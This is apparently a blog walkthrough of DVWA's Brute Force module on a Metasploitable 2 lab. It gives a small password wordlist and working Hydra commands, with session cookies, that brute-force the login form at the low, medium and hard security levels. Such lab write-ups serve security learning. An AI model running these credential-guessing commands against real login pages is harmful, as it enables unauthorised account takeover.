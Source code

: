 ```yaml
---
title: DVWA
date: 2025-10-05 00:12:12 +0530
categories: [CTFs, DVWA]
tags: [dvwa]     # TAG names should always be lowercase
description: Damn Vulnerable Web Application Walkthrough.

---
```


# A Step-by-Step Guide to the DVWA Brute Force Module

Welcome to this walkthrough for the Brute Force module in the Damn Vulnerable Web Application (DVWA). This guide is for educational purposes to help you understand how brute-force attacks work and, more importantly, how to defend against them. We will explore each difficulty level from Low to Impossible.

## Setup

For this walkthrough we will utlize Metasploitable 2 instance which ships with a DVWA instance
* Start the metasploitable 2 instance.
* Login using credentials `msfadmin:msfadmin`.
* check the ip address of the system using `ifconfig`.
* Uisng your kali linux instance, go the IP of metasploitable and choose dvwa.
* Login in to dvwa using credentials `admin:password`.
* Go to Setup, and use Create/Reset Database

## Challenge 1: Brute Force Attacks

### What is a Brute-Force Attack?

A brute-force attack is a trial-and-error method used to obtain information such as a username or password. The attacker systematically tries all possible combinations of characters until the correct one is found. In the context of a web login form, this involves using a list of common usernames and passwords (a wordlist) to guess the credentials.

### Preparation

Prepare our own wordlist for password for easy bruteforcing
```shell
123456
12345
123456789
password
iloveyou
princess
1234567
rockyou
12345678
abc123
```
{: file="passwords.txt" }

Let's begin!

---

### Level: Low

At the Low security level, the application has **zero protection** against brute-force attacks. The server-side code simply takes the user's input and checks it against the database. There is no rate limiting, no account lockout, and no other mechanism to slow down or stop repeated login attempts.

An attacker can send thousands of requests per minute without any penalty.


We will use the command-line tool **Hydra** to automate the password guessing process.

**Step 1: Analyze the Login Form**
Launch Burp Suite and proxy all trafic through it.

First, navigate to the DVWA Brute Force page. Enter any random username and password (e.g., `admin` / `12345`) and click "Login".You will see that it's a `GET` request.

The URL will look something like this:
`http://192.168.202.148/dvwa/vulnerabilities/brute/?username=admin&password=12345&Login=Login#`

Also, note the error message on the page for a failed login: "**Username and/or password incorrect.**"

![Brute Force Login Error](/assets/img/dvwa-brute-login-failed.png){: .shadow }
![Brute Force Login Error](/assets/img/dvwa-brute-burp.png){: .shadow }


**Step 2: Construct the Hydra Command**

```bash
hydra 192.168.202.148 http-form-get "/dvwa/vulnerabilities/brute/:username=admin&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=e6c27aacd3395aa1fce72b6655dc2a35; security=low:F=Username and/or password incorrect." -l admin -P password.txt
```
* Change the IP address.
* Change the PHPSESSIP cookie by looking at the burp request.

![Brute Force Low Command](/assets/img/dvwa-brute-low-cmd.png){: .shadow }

### Level: Medium

**To Change difficulty, just change the security cookie. Like `security=medium`**

The medium security level in the DVWA's brute-force module introduces a rudimentary, yet effective, defense mechanism: a sleep() function. This function intentionally pauses the execution of the script for a short duration after each failed login attempt.

Still we can use the same hydra tool with same syntax, just change the cookie `security=medium`. The only diffrence you will observe is that the script will take little bit more time to finish the attack.

```bash
hydra 192.168.202.148 http-form-get "/dvwa/vulnerabilities/brute/:username=admin&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=e6c27aacd3395aa1fce72b6655dc2a35; security=medium:F=Username and/or password incorrect." -l admin -P password.txt
```
![Brute Force Medium Command](/assets/img/dvwa-brute-medium-cmd.png){: .shadow }

### Level: Hard

Here again, the attack will be much slower but the same command will work fine. Just change the security cookie to `security=hard`

```bash
hydra 192.168.202.148 http-form-get "/dvwa/vulnerabilities/brute/:username=admin&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=e6c27aacd3395aa1fce72b6655dc2a35; security=hard:F=Username and/or password incorrect." -l admin -P password.txt
```
![Brute Force Hard Command](/assets/img/dvwa-brute-hard-cmd.png){: .shadow }

### Conclusion

Using the above attacks we identifed the corrent `admin` password as `password`
![Brute Force Hard Command](/assets/img/dvwa-brute-login-success.png){: .shadow }

## Challenge 2: Command Execution
